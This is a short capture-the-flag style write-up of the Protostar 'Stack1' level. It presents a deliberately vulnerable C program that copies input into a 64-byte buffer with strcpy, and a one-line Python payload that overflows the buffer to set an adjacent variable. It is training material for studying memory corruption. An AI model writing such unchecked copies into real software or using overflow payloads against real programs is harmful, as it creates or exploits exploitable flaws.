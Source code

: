# Stack1

## Description

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at `/opt/protostar/bin/stack1`

### Hints

- If you are unfamiliar with the hexadecimal being displayed, `man ascii` is your friend.
- Protostar is little endian

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Approach

In source code, We know that buffer specified with 64 bytes. Also the condition defined that If We modified the address to `0x61626364`. This will be solved.

## Exploitation

Make a payload of 64 bytes characters and Add the address which defined in the condition. Pipe the payload into the binary.

```bash
./stack1 $(python -c 'import struct; print "A"*64+struct.pack("I",0x61626364)')
```
